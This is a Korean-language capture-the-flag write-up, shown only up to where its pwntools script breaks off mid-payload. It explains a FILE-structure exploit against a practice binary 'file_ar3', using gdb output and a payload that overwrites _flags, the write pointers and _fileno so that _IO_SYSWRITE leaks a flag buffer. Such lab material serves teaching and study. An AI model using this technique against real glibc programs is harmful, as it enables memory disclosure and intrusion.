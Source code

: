 ```bash
   0x4008c7 <main+76>:  mov    rax,QWORD PTR [rbp-0x10]
   0x4008cb <main+80>:  mov    rsi,rax
   0x4008ce <main+83>:  mov    edi,0x400a51
   0x4008d3 <main+88>:  mov    eax,0x0
   0x4008d8 <main+93>:  call   0x4006c0 <printf@plt>
gdb-peda$ b *0x4008c3
Breakpoint 1 at 0x4008c3
gdb-peda$ r

gdb-peda$ x/gx $rax
0x602010:       0x00000000fbad2484
```

`_IO_SYSWRITE`  함수가 호출되는 조건을 맞춰주기 위해 testfile에 대한 파일 포인터의 `_flags` 값을 알아냈다. `_flags` 멤버 변수는 `0xfbad2484` 값을 가지고 있다.

다음은 `file_ar3` 에 대한 공격 코드인 `file_ar3.py` 에 대한 설명이다.

line 12에서는 `_IO_SYSWRITE` 함수를 호출하기 위해 `_flags` 를 `IO_IS_APPENDING` 값인 `0X800` 과 or 연산한 값으로 조작한다.

line 16 ~ line 17에서는 `_IO_write_base` 를 출력할 버퍼의 시작 주소인 `flag_buf` 주소로 조작하고, `_IO_write_ptr` 을 `flag_buf + 0x100` 으로 조작했다. 이로써 라이브러리 내부에서 `_IO_SYSWRITE` 함수가 호출되면 `flag_buf` 주소로부터 0x100 바이트 만큼의 메모리가 출력될 것이다.

다음으로 line 14에서 `_IO_read_end` 와 `_IO_write_base` 를 동일한 값으로 조작했다.

또한 line 29에서 표준 출력으로 출력하기 위해 `_fileno` 멤버 변수를 `1` 조작했다.

`file_ar3.py` 의 실행 결과는 다음과 같다.

- file_ar3.py
    
    ```python
    # file_ar3.py
    from pwn import *
    
    p = process("./file_ar3")
    
    print(p.recvuntil("PTR: "))
    fp = int(p.recvuntil(b"\n").strip(b"\n"),16)
    print(hex(fp))
    
    print(p.sendlineafter("Addr: ", str(fp)))
    
    payload = p64(0xfbad2484 | 0x800)
    payload += p64(0) # _IO_read_ptr
    payload += p64(0x6010c0) # _IO_read_end
    payload += p64(0) # _IO_read_base
    payload += p64(0x6010c0) # _IO_write_base 
    payload += p64(0x6011c0) # _IO_write_ptr 
    payload += p64(0) # _IO_write_end 
    payload += p64(0) # _IO_buf_base
    payload += p64(0) # _IO_buf_end
    
    payload += p64(0)
    payload += p64(0)
    payload += p64(0)
    